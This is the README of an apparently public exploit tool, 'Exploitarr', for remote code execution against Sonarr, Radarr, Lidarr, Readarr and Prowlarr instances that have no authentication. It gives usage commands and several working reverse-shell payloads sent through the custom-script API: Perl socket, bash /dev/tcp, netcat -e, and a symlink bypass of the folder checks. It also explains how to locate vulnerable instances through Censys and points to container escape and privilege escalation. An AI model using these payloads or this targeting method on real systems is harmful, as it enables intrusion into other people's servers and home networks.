


# Exploitarr
Remote Code Execution for Sonarr, Radarr, Lidarr, Readarr, Prowlarr

## Usage
Firstly install the requirements:
```
pip install -r requirements.txt
```

`--help` will show help details
```
python exploitarr.py --help
```

`--help` also works for subcommands.
```
python exploitarr.py <subcommand> --help
```

Exploitarr has two main subcommands `Probe` and `Exploit`.
### Probe
Checks to see if the `initialize.js` script is accessible.
If so this means the instance has no authentication enabled and instance information including the API Key can be extracted.

Probe does not do any version checking so ~~(if/when) this is patched~~ ([patched](https://github.com/Sonarr/Sonarr/commit/fa9136c4d15481270d212efe70c8a3482cf861dc) in Sonarr release v3.0.8.1507) it will still return that an instance is vulnerable as long as it still has no authentication allowing for the `initialize.js` data to be extracted.
```
python exploitarr.py probe http://<instance_ip>:<port>
```
Sample output
```
http://127.0.0.1:8989 is vulnerable
Service: Sonarr
API Key: c8b15bb1798c460db573c5d4853fc75d
API Root: /api/v3
```
### Exploit
Exploit an instance by sending payloads to trigger a reverse shell.

**Exploitarr does not listen for you. You must do this yourself using e.g. netcat**
```
python exploitarr.py exploit http://<instance_ip>:<port> --ip <listening_ip> --port <listening_port>
```
*--port is optional and defaults to 10001*

## Explanation
The *arr software stack supports the use of running custom scripts when certain events are triggered. (See more [here](https://wiki.servarr.com/sonarr/custom-scripts))



As can be seen in the above image; the UI only lets you select the path to the script and you can not pass any custom arguments. The *arr software passes all relevant info to the script using environment variables.

Support for custom arguments was removed during the previous major version update for security reasons. *However* the API actually still supports supplying custom arguments. 🤔

Examining the network request payload sent when testing the script the following can be seen.
```json
"fields": [
    {
        "name": "path",
        "value": "/usr/bin/awk"
    },
    {
        "name": "arguments"
    }
]
```
Viewing the source code [Sonarr Custom Script Settings](https://github.com/Sonarr/Sonarr/blob/8137a776b6dac71607252916658e18e705e84615/src/NzbDrone.Core/Notifications/CustomScript/CustomScriptSettings.cs#L22-L26) we see that support for arguments still exists.

We can see a [Validation Rule](https://github.com/Sonarr/Sonarr/blob/8137a776b6dac71607252916658e18e705e84615/src/NzbDrone.Core/Notifications/CustomScript/CustomScriptSettings.cs#L14) on the custom script settings is in place to ensure that the arguments is actually empty preventing anything from being supplied. *However* this doesn't appear to actually do anything 🤷

e.g. the following can be used to pass an argument to `touch`
```json
"fields": [
    {
        "name": "path",
        "value": "/usr/bin/touch"
    },
    {
        "name": "arguments",
        "value": "/tmp/exploitarr"
    }
]
```

Some of the *arr stack prevent the `path` value being a child of [System Folders](https://github.com/Sonarr/Sonarr/blob/1bf87bf8735f7e7eb1b2d207d3015a7301b558bf/src/NzbDrone.Common/Disk/SystemFolders.cs) (`/bin`, `/boot`, `/lib`, `/sbin`, `/proc`)
- [Sonarr](https://github.com/Sonarr/Sonarr/blob/1bf87bf8735f7e7eb1b2d207d3015a7301b558bf/src/NzbDrone.Core/Notifications/CustomScript/CustomScript.cs#L222-L228)
- [Radarr](https://github.com/Radarr/Radarr/blob/95d44f968f0f82cf8949f5dc5ebdbb502d3e2a08/src/NzbDrone.Core/Notifications/CustomScript/CustomScript.cs#L209-L215)
- [Prowlarr](https://github.com/Prowlarr/Prowlarr/blob/64c9bb42312122afa4f876c6607b26271618c6cd/src/NzbDrone.Core/Notifications/CustomScript/CustomScript.cs#L68-L74)

The `System Folders` lists used by the above don't include `/usr/bin`.
The contents of `/usr/bin` can vary between systems but often contains `perl` which can be used to get a reverse shell using the below payload (where IP_ADDRESS, PORT) are replaced by the corresponding values for a machine listening for TCP connections (e.g. `nc -lvnp PORT`)
```json
"fields": [
    {
        "name": "path",
        "value": "/usr/bin/perl"
    },
    {
        "name": "arguments",
        "value": "-e \"use Socket;$i=qq{IP_ADDRESS};$p=qq{PORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname(qq{tcp}));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,qq{>&S});open(STDOUT,qq{>&S});open(STDERR,qq{>&S});exec(qq{/bin/bash -i});};\""
    }
]
```
*Note `qq{}` is a string. I was having issues using `'` and `"` together. [This post](https://stackoverflow.com/a/7761088) showed using `qq{}` as a workaround*

From my own testing running *arr instances locally using the [Linux Server](https://www.linuxserver.io/) docker images as well as running the official Sonarr Linux build there doesn't seem to be a single exploit payload that works for everything. But there exists a way to exploit everything. Exploitarr is configured with a few different payloads which will be tried during exploit mode. The built in exploits should work for the majority of Linux systems however certain setups might require a different/more complicated exploit.

Here are some alternatives to perl which I had success with:

**If /usr/bin/bash exists**
```json
"fields": [
    {
        "name": "path",
        "value": "/usr/bin/bash"
    },
    {
        "name": "arguments",
        "value": "-c \"bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1\""
    }
]
```

**Netcat available**
```json
"fields": [
    {
        "name": "path",
        "value": "/usr/bin/nc"
    },
    {
        "name": "arguments",
        "value": "IP_ADDRESS PORT -e /bin/bash"
    }
]
```

**No System Folder Protection - Lidarr, Readarr**
```json
"fields": [
    {
        "name": "path",
        "value": "/bin/bash"
    },
    {
        "name": "arguments",
        "value": "-c \"bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1\""
    }
]
```

**Symlink Creation**

Here I used `coreutils` to run `ln` but if direct access to `ln` is available that would work too.
```json
// Request 1 - Create symlink to bash using `coreutils`
"fields": [
    {
        "name": "path",
        "value": "/usr/bin/coreutils"
    },
    {
        "name": "arguments",
        "value": "--coreutils-prog=ln -s /bin/bash /app/bash"
    }
]

// Request 2 - Use symlink to bypass System Folder validation
"fields": [
    {
        "name": "path",
        "value": "/app/bash"
    },
    {
        "name": "arguments",
        "value": "-c \"bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1\""
    }
]
```

These are just a few of the many possible ways this exploit can be abused to gain a shell.

## Impact
By default the *arr stack have no authentication enabled. As such any instance exposed to the internet is exploitable (of which there are **way** too many)

The HTML title of the page is the application name. When the `forms` authentication mode is enabled the title is the application name followed by ` - Login`. This makes it easy to use internet scanning services such as [Censys](https://search.censys.io) to identify instances exposed to the internet which don't have authentication enabled. Additionally when using `basic-auth` the title is not received until after successful authentication meaning these instances are not listed either.

This image shows a breakdown of host OSes for the exposed Sonarr instances.


Windows is the most popular platform by far. Exploitarr doesn't support Windows however *theoretically* (I have not tested this) with API access it should be possible to download a malicious torrent and execute a `.bat` file contained in the torrent using the custom script option as Windows has no executable attribute like Linux

Presumably most users on Linux are running *arr software using Docker. When not using Docker this provides a reverse shell directly on the host machine. When using Docker access to the victim machine is limited to the container. There exist additional **unrelated**  vulnerabilities such as the recently disclosed [DirtyPipe](https://www.datadoghq.com/blog/dirty-pipe-vulnerability-overview-and-remediation/) which could be used to escape a container. Once on the host the recent [Polkit](https://access.redhat.com/security/vulnerabilities/RHSB-2022-001) exploit could possibly be used to escalate privileges if the victim machine is vulnerable.
